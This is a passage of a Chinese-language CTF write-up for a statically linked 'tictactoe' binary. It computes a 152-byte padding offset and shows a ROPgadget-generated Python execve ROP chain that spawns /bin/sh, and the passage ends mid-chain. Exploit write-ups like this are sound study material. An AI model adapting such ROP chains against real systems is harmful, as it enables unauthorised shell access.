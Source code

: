 所以考虑使用 ROP 来获取服务器的 shell。由于这个程序是静态链接的，被链接的 C 库中就包含了很多可以被利用的 gadgets，所以考虑使用 ROPgadget 来自动生成 payload。

ROPgadget 生成的 payload 前面需要加上 padding，使得 payload 能够正好从函数返回地址开始覆盖。从上图我们可以看到，为了从 r（返回地址）开始，我们的 padding 长度应该是 0x8 - (-0x90) = 152。（s 代表是保存的寄存器等调用者函数的现场）

### exp

```shell
$ ROPgadget --binary tictactoe --ropchain
（中间的输出省略）
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
```